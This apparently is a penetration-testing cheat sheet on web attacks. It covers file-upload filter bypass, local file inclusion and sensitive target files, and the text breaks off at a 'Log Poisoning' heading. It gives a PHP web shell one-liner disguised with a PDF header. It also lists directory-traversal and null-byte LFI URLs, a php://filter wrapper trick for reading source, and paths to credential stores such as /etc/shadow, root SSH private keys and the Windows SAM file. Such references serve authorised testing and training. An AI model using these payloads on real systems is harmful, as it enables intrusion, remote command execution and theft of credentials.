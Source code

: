 Bypass extension filtering: rename shell 
Bypass header check: 

    %PDF-1.4
    <?php system($_GET["cmd"]); ?>

### LFI Testing 
Check for client side scripts 

    http://example.com/index.php?page=../../../etc/passwd  
    http://example.com/index.php?page=../../../etc/passwd%00                  #PHP below v. 5.3.4 bypass
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00        # double encoding    
    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
	
    /etc/passwd, etc.
    can you include a remote file?
    ?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
	
    http://example.labs/page.php?file=php://filter/resource=/etc/passwd             #php filter wrapper 
	
	
Vulnerable PHP functions

    include
    require
    include_once 
    require_once 
	
### Interesting Files 
Linux 

    /etc/passwd
    /etc/shadow
    /etc/issue
    /etc/group
    /etc/hostname
    /etc/ssh/ssh_config
    /etc/ssh/sshd_config
    /root/.ssh/id_rsa
    /root/.ssh/authorized_keys
    /home/user/.ssh/authorized_keys
    /home/user/.ssh/id_rsa

Windows 

    /boot.ini
    /autoexec.bat
    /windows/system32/drivers/etc/hosts
    /windows/repair/SAM

Log Poisoning 
